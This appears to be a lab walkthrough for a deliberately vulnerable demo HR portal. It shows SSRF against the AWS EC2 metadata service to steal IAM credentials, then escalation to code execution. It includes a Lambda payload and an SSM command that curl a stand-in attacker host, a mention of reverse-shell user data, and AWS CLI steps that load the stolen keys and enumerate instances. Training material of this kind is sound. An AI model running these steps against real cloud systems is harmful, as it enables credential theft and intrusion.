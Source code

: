 
# Attack 2: Server-Side Request Forgery (SSRF) to Remote Code Execution (RCE)

SSRF allows attackers to make the server perform HTTP requests to internal resources. This can be escalated to Remote Code Execution in certain scenarios.

## Step 1: Access the Document Upload Page

1. First, log in to the HR Portal (you can use the SQL injection from Attack 1)
2. Navigate to the Document Upload page (`/documents`)

## Step 2: Preparing for SSRF Attack

1. Select any file to upload (the content doesn't matter)
2. Look for the "Upload Destination URL" field
3. By default, it will contain `s3://employee-bucket/documents/`

## Step 3: Perform Basic SSRF to Access EC2 Metadata

1. Change the upload URL to: `http://169.254.169.254/latest/meta-data/`
2. Click "Upload Document"
3. The server will attempt to contact AWS metadata service instead of S3
4. Observe the response, which should contain EC2 metadata information

## Step 4: Extract IAM Credentials

1. Change the upload URL to: `http://169.254.169.254/latest/meta-data/iam/security-credentials/hr-portal-ec2-role`
2. Click "Upload Document"
3. This will return temporary AWS credentials including:
   - `AccessKeyId`
   - `SecretAccessKey`
   - `Token`
4. Save these credentials for the next steps

## Step 5: Escalate SSRF to RCE

For escalating SSRF to RCE, there are several potential paths depending on the environment:

1. **Lambda Function Method**:
   - Using the stolen AWS credentials, create a malicious Lambda function
   - Configure the Lambda with a code payload that executes system commands
   - Invoke the Lambda function using the vulnerable SSRF endpoint
   
   Sample payload for Lambda:
   ```javascript
   exports.handler = async (event) => {
     const { exec } = require('child_process');
     return new Promise((resolve, reject) => {
       exec('curl http://attacker-server.com/$(whoami)', (error, stdout, stderr) => {
         resolve({
           statusCode: 200,
           body: { stdout, stderr }
         });
       });
     });
   };
   ```

2. **EC2 User Data Method**:
   - If the EC2 instance has permissions to modify user data scripts
   - Create a new EC2 instance with malicious user data that contains a reverse shell
   - Use the SSRF to trigger execution of the user data script

3. **SSM Send Command Method**:
   - If the EC2 role has SSM permissions
   - Use AWS Systems Manager Send Command to execute arbitrary commands on the target EC2 instance
   ```bash
   aws ssm send-command \
     --document-name "AWS-RunShellScript" \
     --parameters commands=["curl http://attacker.com/$(whoami)"] \
     --targets "Key=instanceids,Values=i-1234567890abcdef0"
   ```

## Step 6: Configure AWS CLI with the Stolen Credentials

```bash
# Configure AWS CLI with the stolen credentials
export AWS_ACCESS_KEY_ID=ASIA...  # Use the AccessKeyId from Step 4
export AWS_SECRET_ACCESS_KEY=...  # Use the SecretAccessKey from Step 4
export AWS_SESSION_TOKEN=...      # Use the Token from Step 4
export AWS_DEFAULT_REGION=us-east-1  # Adjust region if necessary
```

## Step 7: Use AWS CLI to Discover Other EC2 Instances

```bash
# List all EC2 instances in the account
aws ec2 describe-instances

# Store the Jenkins server information
JENKINS_INSTANCE_ID=$(aws ec2 describe-instances --filters "Name=tag:Name,Values=Demo-Jenkins" --query "Reservations[0].Instances[0].InstanceId" --output text)
JENKINS_PRIVATE_IP=$(aws ec2 describe-instances --filters "Name=tag:Name,Values=Demo-Jenkins" --query "Reservations[0].Instances[0].PrivateIpAddress" --output text)
JENKINS_AZ=$(aws ec2 describe-instances --filters "Name=tag:Name,Values=Demo-Jenkins" --query "Reservations[0].Instances[0].Placement.AvailabilityZone" --output text)
```
